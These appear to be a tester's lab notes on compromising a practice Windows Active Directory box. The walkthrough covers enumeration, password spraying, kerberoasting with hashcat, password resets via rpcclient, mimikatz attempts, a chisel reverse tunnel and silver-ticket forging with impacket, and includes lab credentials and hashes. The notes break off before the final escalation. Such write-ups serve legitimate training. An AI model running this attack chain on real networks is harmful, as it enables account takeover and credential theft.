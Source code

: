 ### Enumeration
```
IP=192.168.232.21
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,49666,49668,49675,49676,49679,49691,49698,49717 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 53
	- Simple DNS
- 80
	- Microsoft IIS httpd 10.0
- 88
	- kerberos
- 135
	- RPC
- 139
	- RPC
- 389
	- Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
- 445
	- smb
- 464
	- kpasswd5
- 593
	- RPC
- 636
	- ldapssl
- 3268
	- Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
- 3269
	- globalcatLDAPssl
- 3389
	- RDP
- 5985
	- winrm
- 49666
	- RPC
- 49668
	- RPC
- 49675
	- RPC
- 49676
	- RPC
- 49679
	- RPC
- 49691
	- RPC
- 49698
	- RPC
- 49717
	- RPC
### Foothold
- RPC/ SMB
	- enum4linux $IP
		- nothing
	- crackmapexec smb $IP -u guest -p "" --rid-brute
		- guest account disabled
- 445
	- smbclient -N -L //$IP
		- login successful
		- no shares
	- nmap --script smb-vuln* -p135,139,445 $IP
		- nothing
	- crackmapexec smb $IP -u Fiona.Clark -p Summer2023 --shares
		- READ IPC NETLOGON SYSVOL
- 80
	- Default landing page
		- ![[Pasted image 20240819081418.png]]
	- Team
		- Long list of peeps
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- /error/
			- /team/
				- Put them into firstname.lastname format
				- crackmapexec smb $IP -u users.txt -p Summer2023
					- Get lucky guessing. Couldnt find wordlist with this password
					- `nagoya-industries.com\Fiona.Clark:Summer2023
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
- Fiona.Clark
	- `xfreerdp /v:$IP /u:Fiona.Clark /p:Summer2023
		- failed
	- evil-winrm -i 192.168.232.21 -u Fiona.Clark -p 'Summer2023'
		- failed
	- `smbclient -U 'nagoya-industries.com/Fiona.clark' \\$IP\SYSVOL
		- DfsrPrivate
		- Policies
		- scripts
			- ResetPassword
				- ResetPassword.exe
				- ResetPassword.exe.config
				- A few dll and xml
				- Download the exe files
					- wine ~/OSCP/tools/windows/dnSpy/dnSpy.exe
						- Not working
						- We would find svc_helpdesk password - U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
	- sudo impacket-GetUserSPNs nagoya-industries.com/Fiona.Clark:Summer2023 -dc-ip 192.168.232.21 -request
		- svc_helpdesk TGS
			- hashcat -m 13100 svc_helpdesk /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
		- svc_mssql TGS
			- hashcat -m 13100 svc_mssql /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
			- Service1
- svc_mssql
	- crackmapexec smb $IP -u svc_mssql -p Service1 --shares
		- Valid login
		- RED IPC NETLOGON SYSVOL
	- xfreerdp /v:$IP /u:svc_mssql /p:Service1
		- failed
	- evil-winrm -i 192.168.232.21 -u svc_mssql -p 'Service1'
		- failed
- svc_helpdesk:U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
	- `rpcclient -U nagoya-industries/svc_helpdesk 192.168.167.21
		- enumdomusers
		- Then we query each user
			- queryusergroups 0xBLAH
			- Christopher is in 3 groups and all others are in 2.
		- Change password
			- setuserinfo christopher.lewis 23 'Admin!23'
- christopher.lewis:Admin!23
	- evil-winrm -i 192.168.232.21 -u christopher.lewis -p 'Admin!23'
		- Successful
### PE
#### Windows
- christopher.lewis
	- whoami /all
	- Root drive directory
	- net user USERNAME
		- Check group memberships
	- systeminfo
		- `./wes.py ~/OSCP/boxes/BOX_NAME/systeminfo.txt  > ~/OSCP/boxes/BOX_NAME/systeminfo_exploits.txt`
	- history
		- (Get-PSReadLineOption).HistorySavePath
	- Users with console
	- Services
		- PS1: `Get-Service | Select-Object -Property Name, DisplayName, Status
		- Unquoted
			- cmd
				- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
			- PS1
				- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
			- icacls Filepath before .exe
				- Looking for W or F
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
			- no privs
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
			- no privs
	- netstat -ano
		- Active ports
			- 1433 mssql
	- Chisel
		- On A: ./chisel server -p 8000 --reverse
		- On B: chisel64.exe client 192.168.232.21:8000 R:socks
	- MSSQL
		- impacket-mssqlclient svc_mssql:'Service1'@127.0.0.1 -windows-auth
			- Nothing useful
	- Ticket generation
		- Put Service1 into hash format - E3A0168BC21CFB88B95C954A5B18F57C
		- Use powerview to get domain SID
			- . ./PowerView.ps1
			- get-ADdomain
		- User SPN
			- Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames
		- impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
			- Save the admin ticket to directory
		- export KRB5CCNAME=$PWD/Administrator.ccache
			- Gets way crazy after this

### Credentials
### Lessons Learned